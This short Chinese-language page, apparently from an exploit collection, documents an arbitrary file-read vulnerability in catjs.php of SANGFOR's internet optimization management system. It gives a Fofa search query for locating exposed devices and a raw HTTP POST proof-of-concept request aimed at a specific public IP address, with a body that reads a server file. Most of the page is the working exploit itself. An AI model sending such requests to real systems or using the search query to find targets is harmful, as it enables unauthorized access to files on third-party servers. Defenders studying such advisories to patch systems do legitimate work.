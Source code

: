 # 深信服上网优化管理系统 catjs.php 文件读取漏洞

    ## Fofa

```
title="SANGFOR上网优化管理"
```

## poc

```
POST /php/catjs.php HTTP/1.1
Host: 122.227.234.50
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 19

["./php/catjs.php"]
```
